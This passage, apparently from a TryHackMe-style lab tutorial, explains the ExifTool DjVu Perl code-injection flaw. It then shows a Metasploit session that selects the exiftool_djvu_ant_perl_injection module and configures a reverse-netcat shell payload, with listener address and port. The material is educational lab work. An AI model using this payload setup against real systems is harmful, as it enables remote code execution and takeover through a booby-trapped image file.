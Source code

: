 That regular expression is also very complicated, unfortunately. There's a helpful comment explaining the intent, escaping special characters in the string. Another unfortunate discovery, if we look at the source code surrounding our filter which wasn't captured in the diff, is that this filter also relies on quote marks delimiting the ends of fields.<br>

Combining all this information, we can see how a code injection vulnerability would arise if we can bypass the filter and have Perl eval our own code. As this filter is irritating and the exploit is somewhat complex to engineer, we'll simply use Metasploit to craft our exploit. Articles describing how an exploit was created manually are included later.</p>

<h3>Creating our exploit with Metasploit</h3>
<p>To create our exploit, we need to first find the Metasploit module for this vulnerability. If you're unfamiliar with locating exploits in Metasploit, try the TryHackMe Metasploit Intro room.

We then need to set our options appropriately for a reverse shell payload. As it's a Perl command injection vulnerability, we want a command payload rather than a binary payload. Make sure your LHOST is correct and make sure you start a netcat listener!</p>

```bash
msf6 > search exiftool

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/exiftool_djvu_ant_perl_injection  2021-05-24       excellent  No     ExifTool DjVu ANT Perl injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > show options

Module options (exploit/unix/fileformat/exiftool_djvu_ant_perl_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.jpg          yes       Output file


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.147.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   JPEG file


msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```
